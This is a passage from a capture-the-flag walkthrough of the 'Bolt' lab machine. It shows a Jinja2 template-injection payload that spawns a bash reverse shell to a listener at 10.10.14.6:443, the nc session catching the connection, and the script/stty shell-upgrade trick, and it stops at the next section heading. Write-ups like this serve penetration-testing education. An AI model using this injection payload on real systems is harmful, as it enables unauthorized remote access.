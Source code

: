 ![image-20220218153059513](https://0xdfimages.gitlab.io/img/image-20220218153059513.png)

#### Shell

I am also able to `ping -c 1 10.10.14.6` and see ICMP packets in `tcpdump`, and the results is in the email:

![image-20210908165753130](https://0xdfimages.gitlab.io/img/image-20210908165753130.png)

I’ll go for a reverse shell:

```

{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"').read() }}

```

It connects:

```

oxdf@hacky$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.114] 57570
bash: cannot set terminal process group (968): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bolt:~/demo$ 

```

I’ll do the terminal trick with `script` to upgrade my shell:

```

www-data@bolt:~/demo$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@bolt:~/demo$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@bolt:~/demo$

```

## Shell as eddie

### Enumeration

#### Home Directories
